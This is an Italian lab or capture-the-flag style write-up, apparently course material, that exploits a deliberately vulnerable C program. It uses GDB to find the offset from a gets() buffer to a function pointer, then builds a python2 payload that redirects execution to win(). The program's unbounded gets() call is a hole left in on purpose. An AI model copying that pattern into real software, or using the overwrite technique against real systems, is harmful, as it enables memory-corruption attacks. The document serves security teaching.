 # Esercizio 3 – Overflow per esecuzione non autorizzata

## Codice C

```c
void win() {
    printf("Hai modificato correttamente il flusso di esecuzione\n");
}

int main(int argc, char *argv[]) {
    int (*fp)();
    char buffer[X];

    fp = 0;
    gets(buffer);
    if (fp) {
        printf("Chiamo l'indirizzo della funzione, salto a 0x%08x\n", fp);
        fp();
    }
}
```

L'obiettivo è sovrascrivere il puntatore a funzione `fp` con l'indirizzo della funzione `win()`, in modo da modificare il flusso di esecuzione.

---

## Analisi con GDB

### Disassemblaggio di `main`

Eseguendo:

```gdb
(gdb) disass main
```

**Output di esempio**:

```
Dump of assembler code for function main:
   0x08048484 <+0>:  lea    0x4(%esp),%ecx
   0x08048488 <+4>:  and    $0xfffffff0,%esp
   0x0804848b <+7>:  pushl  -0x4(%ecx)
   0x0804848e <+10>: push   %ebp
   0x0804848f <+11>: mov    %esp,%ebp
-> 0x08048491 <+13>: push   %ecx
-> 0x08048492 <+14>: sub    $0x14,%esp
-> 0x08048495 <+17>: movl   $0x0,-0xc(%ebp)   ; fp = 0
   0x0804849c <+24>: sub    $0xc,%esp
-> 0x0804849f <+27>: lea    -0x16(%ebp),%eax ; buffer
   0x080484a2 <+30>: push   %eax
   0x080484a3 <+31>: call   0x8048330 <gets@plt>
   0x080484a8 <+36>: add    $0x10,%esp
-> 0x080484ab <+39>: cmpl   $0x0,-0xc(%ebp)   ; if (fp != 0)
   0x080484af <+43>: je     0x80484c9 <main+69>
   0x080484b1 <+45>: sub    $0x8,%esp
   0x080484b4 <+48>: pushl  -0xc(%ebp)
   0x080484b7 <+51>: push   $0x8048598
   0x080484bc <+56>: call   0x8048320 <printf@plt>
   0x080484c1 <+61>: add    $0x10,%esp
   0x080484c4 <+64>: mov    -0xc(%ebp),%eax
   0x080484c7 <+67>: call   *%eax             ; esegue fp()
   0x080484c9 <+69>: mov    $0x0,%eax
   0x080484ce <+74>: mov    -0x4(%ebp),%ecx
   0x080484d1 <+77>: leave
   0x080484d2 <+78>: lea    -0x4(%ecx),%esp
   0x080484d5 <+81>: ret
```

- La variabile `fp` (il puntatore a funzione) si trova a `-0xc(%ebp)`.
- Il buffer inizia a `-0x16(%ebp)`.

## Determinare l'Offset

Per capire quanti byte separano il buffer da `fp`, impostiamo un breakpoint prima della `gets()` (ad esempio, a `main+31`) e osserviamo i registri in GDB.

Esempio:

```
(gdb) i r
eax = 0xffffd5d2
ebp = 0xffffd5e8
...

indirizzo_buffer = eax          = 0xffffd5d2
indirizzo_fp     = ebp - 0xc    = 0xffffd5dc

offset = indirizzo_buffer - indirizzo_fp
       = 0xffffd5d2 - 0xffffd5dc
       = -10

⇒ Necessari 10 byte di riempimento prima di sovrascrivere fp.
```

## Indirizzo di `win()`

Tramite `disass win` o `p win`, scopriamo l'indirizzo di `win()`. 

```
(gdb) disass win
Dump of assembler code for function win:
-> 0x0804846b <+0>:     push   %ebp   ; *win()
   0x0804846c <+1>:     mov    %esp,%ebp
   0x0804846e <+3>:     sub    $0x8,%esp
   0x08048471 <+6>:     sub    $0xc,%esp
   0x08048474 <+9>:     push   $0x8048560
   0x08048479 <+14>:    call   0x8048340 <puts@plt>
   0x0804847e <+19>:    add    $0x10,%esp
   0x08048481 <+22>:    nop
   0x08048482 <+23>:    leave  
   0x08048483 <+24>:    ret    
End of assembler dump.
```

L'indirizzo è il seguente: `0x0804846b`.

In ambiente **little endian**, l'indirizzo `0x0804846b` va inserito come byte sequence `\x6b\x84\x04\x08`.

## Creazione del Payload

Costruiamo una stringa che:
1. Contiene 10 byte di padding (ad esempio `"A"*10`).
2. Subito dopo, i 4 byte dell'indirizzo di `win()` in ordine little endian.

Esempio:

```bash
python2 -c 'print("A"*10 + "\x6b\x84\x04\x08")' | ./esercizio3
```

### Output

```
Chiamo l'indirizzo della funzione, salto a 0x0804846b
Hai modificato correttamente il flusso di esecuzione
```

